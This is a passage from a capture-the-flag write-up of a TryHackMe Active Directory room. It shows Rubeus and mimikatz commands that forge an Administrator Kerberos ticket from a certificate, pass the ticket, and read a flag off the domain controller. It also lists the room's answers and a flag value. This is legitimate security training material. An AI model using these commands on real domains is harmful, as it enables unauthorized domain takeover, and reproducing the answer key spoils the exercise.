   ```shell
  #in RDP access to THMSERVER2
  #open command prompt
  cd C:\Tools

  #we can use Rubeus to load Kerberos TGT
  Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\Users\louis.thornton\Desktop\vulncert.pfx /password:password /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.60.101
  #/user switch is to specify the user to be impersonated
  #/dc switch is the IP of the domain controller THMCHILDDC

  #this generates administrator.kirbi
  #we can use mimikatz to load tgt and authenticate to THMDC

  mimikatz_trunk\x64\mimikatz.exe
  #in mimikatz

  privilege::debug

  kerberos::ptt administrator.kirbi
  #load TGT

  exit
  #exit mimikatz

  #verify if we can access THMDC file system
  dir \\THMDC.za.tryhackme.loc\c$
  #this successfully prints
  #we can get flag now

  type \\THMDC.za.tryhackme.loc\c$\Users\Administrator\Desktop\flag5.txt
  ```

```markdown
1. What does the user create to ask the CA for a certificate? - Certificate Signing Request

2. What is the name of Microsoft's PKI implementation? - Active Directory Certificate Services

3. What is the value of the flag stored on THMDC in the Administrator's Desktop directory (flag5.txt)? - THM{AD.Certs.Can.Get.You.DA}
```

## Exploiting Domain Trusts

* We have access to Tier 0 infra till now (za.tryhackme.loc domain); we can use this to take control of the root domain (tryhackme.loc)

* Domain Trusts are used in the AD network to gain access to other resources in the domain; trusts outline how domains in a forest communicate with each other.

* Types of domain trusts:
